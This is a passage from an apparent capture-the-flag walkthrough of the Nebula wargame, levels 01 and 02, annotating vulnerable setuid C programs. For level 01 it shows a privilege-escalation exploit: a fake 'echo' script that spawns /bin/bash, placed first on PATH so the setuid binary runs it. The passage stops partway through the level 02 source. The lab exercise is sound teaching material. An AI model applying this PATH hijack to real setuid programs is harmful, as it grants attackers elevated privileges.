```c
  setresuid(uid, uid, uid);
// So this sets the real, effective and saved uID.
  system("/usr/bin/env echo and now what?");
// This uses the system-function, which let us use the unix-commands/programs.
// The commands run are first printing the environment variables, and then it echos "and now what?"
}
```


How can this then be exploited? Since there is no user-input.
So I figure that I can overwrite the echo-command with a command that I call echo, but does something else.
This kind of explains the way to do this.
http://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my
So I wrote that program in bash

```
#!/bin/bash
/bin/bash
```

Then chmod +x echo, and export PATH=/tmp:$PATH. Now, it is important here to add the echo to the beginning of the PATH-variable, otherwise it will execute the normal echo.

```
./flag01
whoami
flag01
```

We got the flag!

## Level 02

So on this level we have another setuid to play with.
```
cd /home/flag02
level02@nebula:/home/flag02$ file flag02
flag02: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
```
Let's run it and see what happens.
```
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
```

This looks a bit like the first level. But let's analyze the code.

```c
#include <stdlib.h>
// Standard-lib.
#include <unistd.h>
// Lib to get getegid()
#include <string.h>
// Lib to manipulate strings
#include <sys/types.h>
// Get new data-types, like gid_t
#include <stdio.h>
// Standard i/o. printf, scanf for example
int main(int argc, char **argv, char **envp)
{
  char *buffer;
// Declare the variable buffer.
  gid_t gid;
  uid_t uid;
```